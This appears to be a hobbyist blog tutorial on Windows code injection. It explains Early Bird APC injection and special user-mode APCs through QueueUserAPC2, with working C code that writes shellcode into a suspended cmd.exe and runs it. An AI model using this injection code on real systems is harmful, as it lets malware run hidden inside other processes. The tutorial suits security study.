

# Early Bird & Special APC

## Early Bird APC Injection

So what's is Early Bird APC Injection? how is it different than APC Injection ? The answer is simple, here instead of creating a suspended thread, we create a suspended process (note that the main thread will also be in suspended state) and then queue the APC call pointing to the allocated memory for our shellcode. The code is really simple, we can create a suspended process by providing the `CREATE_SUSPENDED` flag to the `CreateProcessA` API.

```c
VOID earlyBirdAPC() {
	
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE hProcess = pi.hProcess,
		hThread = pi.hThread;
	
	LPVOID pAddr = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (pAddr == NULL) {
		exit(2);
	}

	WriteProcessMemory(hProcess, pAddr, shellcode, sizeof(shellcode), 0);
	QueueUserAPC(pAddr, hThread, NULL);
	ResumeThread(hThread);

}
```

<figure><figcaption></figcaption></figure>

Note that since the thread was is suspended state, it directly runs all of the APC routine (which is just 1 in our case) and exits which is why we don't see a CMD spawn, if we look at it using Process Hacker , we can see that the cmd.exe is created in suspended state, but it exits after the calculator has been spawned. I had to use `getchar()` to be able to screenshot the suspended Process & Thread and here it is

<figure><figcaption></figcaption></figure>

note that the main thread is the thread of the actual malicious process and not the victim process.

if you want to go deep into this then  you can surely checkout [repnz's blog](https://repnz.github.io/posts/apc/user-apc/) on it, he has explained it in more depth.

## Special APC (Bonus)

This [**MSDN Page**](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs) talks about different types of APC's and we see that there is another special user-mode APC. We can use the [`QueueUserAPC2`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2) function with a [special flag](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ne-processthreadsapi-queue_user_apc_flags) to make our APC "special".

> Special user-mode APCs always execute, even if the target thread is not in an alertable state. For example, if the target thread is currently executing user-mode code, or if the target thread is currently performing an alertable wait, the target thread will be interrupted immediately for APC execution. If the target thread is executing a system call, or performing a non-alertable wait, the APC will be executed after the system call or non-alertable wait finishes (the wait is not interrupted).

I genuinely don't know why it does work on Windows 10 even though the minimum support client version is Windows 11 Build 22000 given on [QueueUserAPC2 page](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2). But if it does, it does and so I'll show you how it works practically.

<mark style="color:red;">**Important Note**</mark> : Please avoid using this APC with legitimate processes, unless you do you, because it makes the thread interrupt immediately which _may_ crash your PC.

Anyways, looking at the function, it is very similar to its prequel and it seems that it acts just like a normal APC if don't pass any flags, and for special APC, we can pass the `QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC` flag which is just a 1.

```c
BOOL QueueUserAPC2(
  PAPCFUNC             ApcRoutine,
  HANDLE               Thread,
  ULONG_PTR            Data,
  QUEUE_USER_APC_FLAGS Flags
);

typedef enum _QUEUE_USER_APC_FLAGS {
  QUEUE_USER_APC_FLAGS_NONE,
  QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC,
  QUEUE_USER_APC_CALLBACK_DATA_CONTEXT
} QUEUE_USER_APC_FLAGS;

// Below is from processthreadsapi.h

    QUEUE_USER_APC_FLAGS_NONE               = 0x00000000,
    QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC   = 0x00000001,
    //
    // Used for requesting additional callback data.
    //
    QUEUE_USER_APC_CALLBACK_DATA_CONTEXT    = 0x00010000, // 65536
```

To give an example of how the thread execution is stopped immediately, I wrote a small function that will keep a thread busy for a while. It was important because the thread finished its execution even before I could queue the APC call.

```c
VOID noAleeert() {
	info("Thread ID noAlert : %d", GetCurrentThreadId());
	for (size_t i = 0; i < 50000; i++) {
		// If printing these many is unfavorable then 
		// Loop till 50, with a Sleep(1) or below 30 imo
		// Sleep(1);
		printf(" %d ",i);
	}
}

QueueUserAPC2(shellcode, hThread, NULL, QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC);

```

We see that even though the thread was supposed to execute a long loop but it was stopped in the middle of its execution to run our special APC.&#x20;

<figure><figcaption></figcaption></figure>

Also another thing to note is that the thread does resume it's execution after it has finished running the special APC. In our case, it _could_ be the shellcode that causes it to exit immediately (This is just my guess, if you know then please reach out to me). We can see this with another example, here I will have a global variable `COUNT` which I will reset using the special APC. This also shows how the APC can disrupt the normal execution and change the data.

```c
SIZE_T COUNT = 5;

VOID testt() {
	info("I ran because im special");
	COUNT = 0;
}
//
QueueUserAPC2((PAPCFUNC)testt, hThread, NULL, QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC);
```

<figure><figcaption></figcaption></figure>

We can see that the thread stops execution at 13, runs the special APC, and then continues its execution again until 35 at which the loop ends (14 + 36 = 50).

That's it for now, this was the 2nd part of the APC Injection. I did felt like I should break it into 2 parts. Anyways, I am going to talk about syscalls next and also hooking/unhooking functions. It's a bit hard to squeeze out time for my hobby now, but I'll keep doing it.

## References

* [https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer](https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer)
* [https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs)
* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2)
* [https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection](https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection)

